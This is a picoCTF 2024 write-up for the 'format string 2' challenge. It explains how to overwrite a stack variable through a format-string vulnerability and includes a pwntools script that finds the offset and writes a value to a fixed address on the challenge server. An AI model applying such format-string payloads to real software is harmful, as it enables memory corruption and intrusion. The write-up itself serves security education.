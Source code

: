 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#browser_webshell_solvable_<br>

This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must ***change data on the stack***!<br>
Download the binary [here](../format-string-2).<br>
Download the source [here](../format-string-2.c).

## Solution

1. Connect with the challenge instance.
2. Review the c source code given to investigate.
3. We'll then found out that the input read is printed as hex values.

   ![image](https://github.com/user-attachments/assets/fbda7617-3b95-471c-afe9-241b8b6592d8)
   **`scanf` will take the input until it encounters any newline, tab or space. Meaning that payloads could be inputted as well. To find the flag, we need to change the value of sus.*
   
4. To overwrite the value of sus, we'll need to find the address of it and export it as a file named "objdump.txt".<br>
   `objdump -D vuln > objdump.txt`
5. Then, write a python script with pwntools to automatically find the offset and overwrite it.

   ```python
   from pwn import *

   context.log_level = "critical"
   context.binary = ELF('./vuln')
   
   p = remote('rhea.picoctf.net', 57163)
   
   def exec_fmt(payload):
       p = remote('rhea.picoctf.net', 57163)
       p.sendline(payload)
       return p.recvall()
   
   autofmt = FmtStr(exec_fmt)
   offset = autofmt.offset
   
   payload = fmtstr_payload(offset, {0x404060: 0x67616c66})
   
   p.sendline(payload)
   
   flag = p.recvall()
   
   print("Flag: ", flag)
   ```

   **The script above is got from [here](https://github.com/noamgariani11/picoCTF-2024-Writeup/blob/main/Binary%20Explotation/format-string-2.md).*
6. Get the flag.
